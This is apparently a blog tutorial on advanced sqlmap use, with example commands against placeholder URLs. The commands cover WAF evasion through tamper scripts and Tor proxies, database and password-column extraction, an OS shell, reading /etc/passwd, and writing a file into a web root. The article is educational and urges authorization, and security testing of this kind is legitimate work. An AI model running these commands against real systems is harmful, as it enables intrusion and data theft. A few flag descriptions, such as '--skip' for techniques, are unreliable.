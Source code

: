 ```yaml
---
title: 'Shortcuts, Stealth, and Smarter Exploitation in SQLMap'
description: 'Unlock sqlmaps full potential! Discover advanced tips, shortcuts, and best practices to streamline your SQL injection testing and ethical hacking efforts. Elevate your security skills.'
date: '2025-06-10'
---
```


If you've ever dipped your toes into the world of web application security, chances are you've encountered `sqlmap`. It's the go-to open-source penetration testing tool that automates the detection and exploitation of SQL injection flaws. But `sqlmap` is far more than a simple point-and-shoot scanner. It's a versatile, powerful instrument, and like any finely tuned tool, knowing its nuances can drastically elevate your effectiveness.

This article isn't about the basics; it's about shifting from merely running `sqlmap` to truly mastering it. We'll explore tips, shortcuts, and clever tricks to make your SQL injection testing faster, stealthier, and more precise, all within the bounds of ethical security practice.

## The Foundation: Beyond the Bare Minimum

Every `sqlmap` journey starts with `-u` for the target URL. But that's just the tip of the iceberg. Real power comes from understanding how `sqlmap` interacts with applications.

*   **Targeting Forms and POST Data:** Many applications use forms that submit data via `POST` requests. `sqlmap` can handle this gracefully.
    ```bash
    # Target a URL with POST data
    sqlmap -u "http://example.com/login.php" --data="username=test&password=test"

    # Or, let sqlmap discover forms on a page
    sqlmap -u "http://example.com/forms.php" --forms
    ```
    The `--forms` switch is a lifesaver when you're not sure which parameters are injectable. It tells `sqlmap` to parse all forms on the specified page and test their input fields.

*   **Leveraging Request Files:** Sometimes, the interaction is complex, involving specific headers, cookies, or multi-part forms that are hard to replicate on the command line. This is where the `-r` option shines.
    ```bash
    # Capture a request using Burp Suite or your browser's dev tools and save it to a file (e.g., request.req)
    sqlmap -r request.req
    ```
    `sqlmap` will read the entire HTTP request from the file and use it as its template for injections. This is invaluable for authenticated scans or tricky request structures.

*   **Automating Interactivity with `--batch`:** `sqlmap` is designed to be interactive, asking you questions about payloads, session reuse, and more. For automated scripts or quick checks, `--batch` is your friend.
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --batch
    ```
    This tells `sqlmap` to automatically choose the default answer whenever it prompts for input. Use it with caution, as it might bypass useful confirmations.

## Speed Demons: Optimizing Your Scan Times

Patience is a virtue, but efficiency is a necessity in security testing. `sqlmap` offers several flags to cut down scan times without sacrificing thoroughness.

*   **Multithreading with `--threads`:** The most straightforward way to speed things up is to run multiple injection attempts concurrently.
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --threads=10
    ```
    Be mindful of the target server's capacity and your network bandwidth. Too many threads can lead to errors or even a denial-of-service, which is *not* the goal.

*   **Smart Testing with `--smart`:** When `sqlmap` starts testing, it goes through a series of checks. `--smart` tells it to perform only a limited number of quick checks before moving on to deeper, more time-consuming ones, if the initial checks yield positive results.
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --smart
    ```
    This can significantly reduce the number of requests for non-vulnerable targets.

*   **Skipping Unnecessary Tests with `--skip`:** If you know a particular injection type isn't relevant or has already been ruled out, you can tell `sqlmap` to skip it. For example, if you're sure it's not a boolean-based blind injection:
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --skip-waf --skip="B"
    ```
    You can skip specific tests (`--skip-waf`) or techniques (`--skip="B,E"` for Boolean-based and Error-based).

*   **Leveraging `--optimize`:** This flag tells `sqlmap` to perform all performance optimizations. It's a general switch that enables various internal speed-ups.
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --optimize
    ```

## Bypassing the Bouncers: Evading Defenses

Web Application Firewalls (WAFs) and other intrusion prevention systems (IPS) are designed to block malicious traffic, including `sqlmap`'s injection attempts. Fortunately, `sqlmap` comes equipped with a powerful arsenal of evasion techniques.

*   **Tamper Scripts (`--tamper`):** This is your primary weapon against WAFs. `sqlmap` includes a directory full of Python scripts designed to modify payloads to evade detection.
    ```bash
    # Use a single tamper script (e.g., betweencomments.py)
    sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper="betweencomments"

    # Chain multiple tamper scripts
    sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper="apostrophemask,charencode,unionalltostackcomments"
    ```
    Experiment with different scripts and combinations. Some common ones include `space2plus`, `randomcase`, `charencode`, `unionalltostackcomments`, and `betweencomments`.

*   **Randomizing User Agents (`--random-agent`):** Many WAFs block common scanner user agents. This flag rotates through a list of legitimate-looking user agents.
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --random-agent
    ```

*   **Proxy Chaining (`--proxy`):** Routing your traffic through a proxy or a chain of proxies can help mask your origin IP address and evade IP-based blocking.
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --proxy="http://127.0.0.1:8080"
    # Or for SOCKS proxies
    sqlmap -u "http://example.com/vulnerable.php?id=1" --proxy="socks5://127.0.0.1:9050"
    ```
    This is especially useful when combined with tools like Tor or your own proxy infrastructure.

## Beyond the Dump: Advanced Data Extraction

Once an injection is confirmed, `sqlmap` can do much more than just `dump` tables.

*   **Identifying the Database and User:**
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --current-db
    sqlmap -u "http://example.com/vulnerable.php?id=1" --current-user
    ```
    These are often your first steps after confirming an injection.

*   **Listing Databases, Tables, and Columns:**
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs
    sqlmap -u "http://example.com/vulnerable.php?id=1" -D "targetdb" --tables
    sqlmap -u "http://example.com/vulnerable.php?id=1" -D "targetdb" -T "users" --columns
    ```
    You can progressively dig deeper into the database schema.

*   **Searching for Specific Data:** If you're looking for something specific (e.g., "password" column), `sqlmap` can search across all databases and tables.
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --search -C "password"
    # Or search for a table named "admin"
    sqlmap -u "http://example.com/vulnerable.php?id=1" --search -T "admin"
    ```

*   **Reading/Writing Files and OS Shell (`--os-shell`, `--file-read`, `--file-write`):** In some severe cases, `sqlmap` can even give you an operating system shell or allow file manipulation on the target server.
    ```bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --os-shell
    sqlmap -u "http://example.com/vulnerable.php?id=1" --file-read="/etc/passwd"
    sqlmap -u "http://example.com/vulnerable.php?id=1" --file-write="localfile.txt" --file-dest="/var/www/html/upload.php"
    ```
    **Crucial Note:** These capabilities are incredibly powerful and carry significant risk. *Never* use them without explicit, written permission from the system owner. Misuse can lead to severe legal consequences.

## Ethical Hacking: The Golden Rule

The power of `sqlmap` comes with immense responsibility. Always, and without exception, ensure you have explicit, written permission before scanning any system that you do not own. Unauthorized access is illegal and unethical. `sqlmap` is a tool for security professionals to identify and help fix vulnerabilities, not to cause harm.

Remember to start with less intrusive options, increase verbosity (`-v 3` or higher) to understand what `sqlmap` is doing, and use session files (`--session-file`) to resume scans if they get interrupted. Practice on intentionally vulnerable applications (like OWASP Juice Shop or bWAPP) to hone your skills in a safe environment.

By understanding these advanced tips and adopting a methodical approach, you'll transform your `sqlmap` usage from basic vulnerability scanning into a highly effective, insightful, and responsible part of your security toolkit. Keep learning, keep experimenting, and always hack ethically.


---